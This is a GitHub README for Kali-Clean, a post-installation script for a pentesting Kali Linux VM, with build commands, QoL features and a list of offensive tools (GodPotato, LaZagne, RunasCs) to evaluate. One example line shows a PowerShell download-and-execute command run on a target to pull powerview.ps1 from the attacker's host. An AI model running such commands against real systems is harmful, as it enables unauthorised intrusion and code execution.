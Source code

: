 # Kali-Clean

![screenshot](./images/screenshot.png?raw=true)

[xct/kali-clean](https://github.com/xct/kali-clean) with personal tweaks and borrowed ideas from [islanddog/kali-clean-pwnbox](https://github.com/islanddog/kali-clean-pwnbox).

This post-installation script is intended to be used on minimal Kali VM with no tools. I used [the official VM build script](https://gitlab.com/kalilinux/build-scripts/kali-vm) with the following options to get started. It should still work fine on a bare metal installation.

```
./build.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# alternatively
./build.sh -v qemu -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"
```

If you are building on a Windows machine:

- you will need WSL2
- install docker in WSL2

```
# confirm you are running WSL2
wsl --version

# start the docker service
sudo systemctl start docker

# continue building your kali VM
./build-in-container.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# copy from WSL to your Windows host (eg. Downloads folder)
cp -r images/kali-linux-rolling-vmware-amd64.vmwarevm /mnt/c/Users/<USER>/Downloads
```

## Installation

```
sudo -sE ./install.sh 2>install.err
```

## QoL Improvements vs default Kali
- Built in cheatsheets using [Navi](https://github.com/denisidoro/navi)
```
navi --print
# alias is 'n'
n
```
- Windows binaries symlinked into Apache webroot
```
# binaries located in /var/www/html/win/
sudo systemctl start apache2
# on target
IEX(New-Object Net.WebClient).DownloadString("http://<LHOST>/win/powerview.ps1")
```
- Modularity: Optional install scripts in `kali-clean/optional_installs/`
```
# example: you want to install python2 for legacy python exploits
# reference: https://www.kali.org/docs/general-use/using-eol-python-versions/
# simply run the following script from the optional_installs folder
./install_python2.sh
```
- IP address of `tun0` is displayed, no need to run `ip a` everytime
- Better firefox profile: Removed default bookmarks, added useful extensions (eg. foxyproxy) and made restore tabs on startup the default.

## TODOs

- [BUG] nerdfont vs conky - locale?compare with VM

## Checkout
Below are things I will get around to trying and will add them to the install script if I find them useful.
- https://github.com/trustedsec/unicorn
- https://github.com/sevagas/macro_pack
- https://github.com/Flangvik/SharpCollection
- https://github.com/bohops/GhostBuild
- https://github.com/AdrianVollmer/PowerHub
- https://github.com/BeichenDream/GodPotato
- https://github.com/antonioCoco/RunasCs
- Note: If using GodPotato, it's easier to create a new admin user and switch to them with RunasCs.
- https://github.com/AlessandroZ/LaZagne or Snaffler
- https://github.com/Azathothas/Toolpacks
- https://github.com/sandialabs/wiretap

## Credit
- https://github.com/AyoItsYas/Mainte
